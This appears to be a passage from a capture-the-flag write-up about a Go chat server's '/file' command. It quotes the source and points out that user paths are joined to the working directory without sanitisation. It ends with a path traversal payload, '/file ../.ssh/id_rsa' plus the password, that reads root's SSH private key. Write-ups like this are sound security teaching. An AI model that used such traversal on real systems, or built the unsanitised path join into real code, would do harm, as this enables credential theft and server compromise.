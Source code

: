 ```go
		file, err := os.Open(printPath)
		if err != nil {
			u.system(fmt.Sprintf("Something went wrong opening the file: %+v", err.Error()))
			return
		}
		defer file.Close()

		scanner := bufio.NewScanner(file)
		for scanner.Scan() {
			u.system(scanner.Text())
		}

		if err := scanner.Err(); err != nil {
			u.system(fmt.Sprintf("Something went wrong printing the file: %+v", err.Error()))
		}

		return

	} else if os.IsNotExist(err) {
		// does not exist, print error
		u.system(fmt.Sprintf("The requested file @ %+v does not exist!", printPath))
		return
	}
	// bokred?
	u.system("Something went badly wrong.")
}

func clearCommand(u *user, _ []string) {
	u.term.Write([]byte("\033[H\033[2J"))
}
```

This source code shows that this command takes 2 arguments "file path" and "password" and there is no sanitization in the input. Another thing is that file path construct with 2 fields application's working directory + user input file path.
```go
	// Get CWD
	cwd, err := os.Getwd()
	if err != nil {
		u.system(err.Error())
	}

	// Construct path to print
	printPath := filepath.Join(cwd, path)
```

And application's working directory is `/root/devzat/`
```bash
dev: /file test CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/test does not exist!
```

this is kind of a lfi bug where `../` lead to file inclusion.
```bash
/file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
```
